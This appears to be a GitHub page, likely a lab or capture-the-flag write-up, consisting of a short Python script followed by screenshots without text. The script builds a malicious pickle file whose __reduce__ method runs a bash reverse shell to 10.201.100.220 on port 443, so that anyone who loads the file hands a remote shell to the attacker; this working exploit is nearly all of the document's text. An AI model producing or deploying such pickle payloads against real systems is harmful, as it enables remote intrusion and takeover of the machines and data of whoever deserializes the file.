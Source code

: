 
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (list, ([os.system('bash -i >& /dev/tcp/10.201.100.220/443 0>&1')],))

with open('exploit.pickle', 'wb') as f:
    pickle.dump(Exploit(), f)



<img width="1258" height="293" alt="image" src="https://github.com/user-attachments/assets/7ed75da0-da88-4e4c-9109-aff94514e5ff" />


<img width="1232" height="332" alt="image" src="https://github.com/user-attachments/assets/cf5734a4-0c99-4220-8cf4-c5cfd52da6c4" />

<br>
<br>

<img width="1229" height="425" alt="image" src="https://github.com/user-attachments/assets/54e2784e-1bdd-4dcb-8594-7b40b93e129a" />

<br>
<br>

<img width="1239" height="420" alt="image" src="https://github.com/user-attachments/assets/c59928fc-b390-4c56-b8ba-940e41e699ea" />


<br>
<br>

<img width="678" height="510" alt="image" src="https://github.com/user-attachments/assets/09dfcb23-457d-43ab-8794-fd96cf7a4418" />

<br>
<br>

<img width="676" height="511" alt="image" src="https://github.com/user-attachments/assets/5c4110b2-1d36-4923-92c1-776515b1f8ef" />

<br>
<br>


<img width="672" height="509" alt="image" src="https://github.com/user-attachments/assets/bcf23a24-9c74-466e-9a3b-453e319ce941" />

<br>
<br>

<img width="680" height="453" alt="image" src="https://github.com/user-attachments/assets/84a7db0a-3868-41c4-a073-3724655b62ed" />

<br>
<br>

<img width="679" height="473" alt="image" src="https://github.com/user-attachments/assets/7eadf4e3-1fb1-491e-9682-3791c89c0fba" />

<br>
<br>
